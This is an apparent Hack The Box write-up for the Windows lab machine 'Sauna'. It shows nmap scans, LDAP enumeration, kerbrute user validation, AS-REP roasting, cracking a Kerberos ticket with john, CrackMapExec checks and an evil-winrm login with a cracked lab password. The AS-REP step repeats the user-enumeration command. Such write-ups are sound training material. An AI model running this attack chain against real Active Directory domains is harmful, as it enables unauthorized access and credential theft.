 # Hack the Box - Sauna

```CSS
Machine IP: 10.10.10.175 - Windows
```

Add to DNS
```CSS
10.10.10.175    egotistical-bank.local sauna sauna.egotistical-bank.local
```

## Nmap
### TCP All Ports

```CSS
▶ nmap -Pn -sS -p- 10.10.10.175 -T4 --min-rate 1000 -oN surface.nmap

Starting Nmap 7.93 ( https://nmap.org ) at 2023-04-15 09:39 IST
Nmap scan report for 10.10.10.175
Host is up (0.18s latency).
Not shown: 65515 filtered tcp ports (no-response)
PORT      STATE SERVICE
53/tcp    open  domain
80/tcp    open  http
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5985/tcp  open  wsman
9389/tcp  open  adws
49667/tcp open  unknown
49673/tcp open  unknown
49674/tcp open  unknown
49675/tcp open  unknown
49695/tcp open  unknown
49720/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 124.54 seconds
```

### Open TCP Ports Service Version and Default Scripts
```CSS
▶ nmap -sC -sV -p 53,80,88,135,139,389,445,464,593,636,3268,3269,5985,9389,49667,49673,49674,49675,49695,49720 10.10.10.175 -oN deep.nmap

Starting Nmap 7.93 ( https://nmap.org ) at 2023-04-15 09:26 IST
Nmap scan report for 10.10.10.175
Host is up (0.18s latency).

PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Egotistical Bank :: Home
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2023-04-15 10:56:16Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        .NET Message Framing
49667/tcp open  msrpc         Microsoft Windows RPC
49673/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49674/tcp open  msrpc         Microsoft Windows RPC
49675/tcp open  msrpc         Microsoft Windows RPC
49695/tcp open  msrpc         Microsoft Windows RPC
49720/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: SAUNA; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 6h59m41s
| smb2-time: 
|   date: 2023-04-15T10:57:10
|_  start_date: N/A
| smb2-security-mode: 
|   311: 
|_    Message signing enabled and required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 132.84 seconds
```

![image](https://user-images.githubusercontent.com/83878909/232182021-fe6ce919-1d8e-4fad-acdb-1925137c81bd.png)

---

## HTTP
### Home
![image](https://user-images.githubusercontent.com/83878909/232183100-b0ba710b-a0d0-456f-8428-866108bab641.png)

### Users
![image](https://user-images.githubusercontent.com/83878909/232183269-6ce5ead2-098a-42c1-a77b-99e9b68cce63.png)

```CSS
Fergus Smith
Shuan Coins
Sophie Driver
Bowie Taylor
Hugo Bear
Steven Kerb
```

---

## LDAPSearch
### Base DN (Distinguished Name)
```CSS
▶ ldapsearch -H ldap://10.10.10.175 -x -s base namingcontexts
```
![image](https://user-images.githubusercontent.com/83878909/232185487-95840fae-d92d-4a03-9795-cbddc1511dba.png)

### Subtree Attributes
```CSS
▶ ldapsearch -H ldap://10.10.10.175 -b 'DC=EGOTISTICAL-BANK,DC=LOCAL' -s sub
```
![image](https://user-images.githubusercontent.com/83878909/232194332-9d8dc461-a687-4416-a6f6-94b4d5b523e9.png)

---

## Kerberos
### Kerberos Authentication Attack
  - Identify valid users.
  - Create a wordlist of potential usernames using the names found earlier.

## Validate Usernames
```CSS
▶ kerbrute userenum --dc 10.10.10.175 -d egotistical-bank.local users.txt
```
![image](https://user-images.githubusercontent.com/83878909/232199517-5274525c-d5f5-4925-b2c9-5fc31b23082f.png)
```CSS
administrator@egotistical-bank.local
fsmith@egotistical-bank.local
```
### AS-REP Roasting
  - Find users who have Kerberos preauthentication disabled and get their TGT.
```CSS
▶ kerbrute userenum --dc 10.10.10.175 -d egotistical-bank.local users.txt
```
![image](https://user-images.githubusercontent.com/83878909/232200855-613b961b-3a89-4a3c-b2ed-6f3fa3aa124f.png)

### Crack TGT
  - Crack the `TGT` obtained for user `fsmith` to get the password.
```CSS
▶ john --format:krb5asrep ticket.hrb5 --wordlist=/usr/share/wordlists/rockyou.txt
```
![image](https://user-images.githubusercontent.com/83878909/232202658-937f7339-41a3-4614-b60f-dc84214e3cda.png)

```CSS
fsmith:Thestrokes23
```

---

## SMB
### Enumerate SMB Shares
  - Enumerate the shares available, which are shared directories or resources that can be accessed.
```CSS
▶ crackmapexec smb 10.10.10.175 -u fsmith -p Thestrokes23 --shares
```
![image](https://user-images.githubusercontent.com/83878909/232202527-9d199655-95f5-451b-9023-eaa07f30e094.png)

---

## WINRM
### Login
  - Check for `Windows Remote Management` login using the found credentials.
```CSS
▶ crackmapexec winrm 10.10.10.175 -u fsmith -p Thestrokes23
```
![image](https://user-images.githubusercontent.com/83878909/232202957-f0300681-06e3-462b-ac69-5d2b4a84df3b.png)

---

### Foothold
  - Login as user `fsmith`.
```CSS
▶ evil-winrm -i 10.10.10.175 -u fsmith -p Thestrokes23
```
![image](https://user-images.githubusercontent.com/83878909/232203185-5855b62c-6fcc-4267-878c-f6748b30112d.png)

---
